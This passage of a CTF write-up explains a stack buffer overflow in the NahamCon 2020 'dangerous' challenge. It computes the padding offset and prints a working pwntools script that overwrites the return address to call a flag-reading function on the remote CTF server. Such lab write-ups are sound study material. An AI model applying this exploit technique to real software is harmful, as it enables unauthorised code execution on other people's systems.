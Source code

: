 rbp is at 0x7ffc22934b20. Getting the offset is as simple as subtracting rbp - rax (0xb20 - 0x937) = 0x1e9. There is enough room space to overwrite the stack :).

Remember we write up to 0x200 input size and now we know our input is being written from rbp -0x1e9. Our payload now is fairly simple: 0x1e9 padding to reach rbp. 0x8 more padding to reach saved rip (or return address) and then the address of the function that reads flag.txt: 0x401312.

The script I used is the following one:

```python
# RazviOverflow
# Python3
from pwn import *

#binary = process("./dangerous")
binary = remote("jh2i.com", 50011)

payload = b"A" * 0x1f1 + p64(0x401312)

print(binary.recv())
binary.sendline(payload)
print(binary.recvall())
```
I tested it locally creating a custom flag.txt and it worked. Then I run it remotely and got the flag :)

<p align="center">
  <img src="/images/CTF/NAHAMCONCTF2020/dangerous11.png"/>
</p>

The flag is: flag{legend_of_zelda_overflow_of_time}

## SaaS

<p align="center">
